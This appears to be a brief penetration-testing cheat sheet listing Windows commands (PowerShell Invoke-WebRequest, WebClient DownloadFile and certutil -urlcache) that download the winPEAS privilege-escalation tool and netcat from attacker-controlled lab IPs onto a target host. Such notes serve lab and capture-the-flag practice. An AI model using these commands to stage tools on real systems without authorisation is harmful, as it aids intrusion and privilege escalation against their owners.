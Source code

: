 
## powershell

```powershell
powershell Invoke-WebRequest -Uri "http://10.10.14.7/winPEASany.exe" -OutFile "winPEASany.exe" 
```
`upload via web`
```powershell
powershell (new-object System.Net.WebClient).Downloadfile('http://192.168.1.36/nc.exe', 'nc.exe')
```


## certutil.exe

```powershell
certutil.exe -urlcache -split -f "http://10.10.14.7/winPEASany.exe" winpeas.exe
```
